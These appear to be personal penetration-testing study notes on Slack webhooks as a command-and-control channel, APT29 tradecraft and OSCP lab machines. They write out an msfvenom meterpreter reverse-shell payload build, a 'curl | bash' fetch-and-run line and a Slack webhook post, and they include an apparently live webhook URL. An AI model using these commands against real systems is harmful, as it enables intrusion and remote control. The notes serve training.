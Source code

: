 # looking at ippsec techniques

# setting slack web hooks and C2
make the channel private
webhook integrations
https://hooks.slack.com/services/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

$body = COnvertTo-Json @{
    pretext = "Automated"
    text = "Hi there"
}
Invoke-RestMethod https://hooks.slack.com/services/
B0559PG99FC/Ej96lpmHngg1OV7htEKcfk3n -Method Post -Body $body -ContentType "application/json"

![](message_passed.png)

### using this as a C2

https://3xpl01tc0d3r.blogspot.com/2018/06/how-to-use-slack-as-c2-sever.html

using a slackshell


# analysing APT 29

https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/

APT 29 uses lnk files in a zip format

ippsec.rocks

uses dll injection into microsoft updater

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.49.144 LPORT=4444 -f bin -o shellcode.bin

we can create one by cat shellcode.bin | msfvenom -p - -f exe -a x64 --platform win -o pleasesubscribe.exe

we can open this up in x64dbg
needs to be done in x64dbg file


# oscp tj null list

bashed

`nmap -sC -sV -oA nmap/initial 10.10.10.65`

based on httpd version you can decide on th elinux kernel

you can execute the file by host ing it using smiple HHTPserver and then saying curl http://10.10.10.1/new | bash

LInenum.sh

dirbuster go buster

sudo -u 

pentestmonkey reverse shell cheatsheet - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


